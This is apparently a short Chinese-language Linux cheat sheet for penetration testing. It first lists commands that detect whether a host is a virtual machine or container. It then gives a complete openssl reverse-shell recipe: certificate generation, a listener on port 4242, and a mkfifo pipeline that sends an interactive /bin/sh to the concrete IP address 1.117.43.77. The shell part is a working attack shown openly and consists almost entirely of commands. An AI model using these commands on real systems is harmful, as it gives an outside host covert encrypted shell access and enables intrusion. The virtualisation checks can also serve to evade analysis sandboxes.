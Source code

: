 # Linux

## 查看是否是虚拟机
lshw -class system | grep -i VM & grep -i virtual
dmesg | grep -i VM & grep -i virtual
dmidecode -s system-product-name
ls /tmp
systemd-detect-virt
virt-what
ls -alh /.dockerenv
cat /proc/1/cgroup




## openssl 回弹shell

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

openssl s_server -quiet -key key.pem -cert cert.pem -port 4242

mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 1.117.43.77:4242 > /tmp/s; rm /tmp/s
```


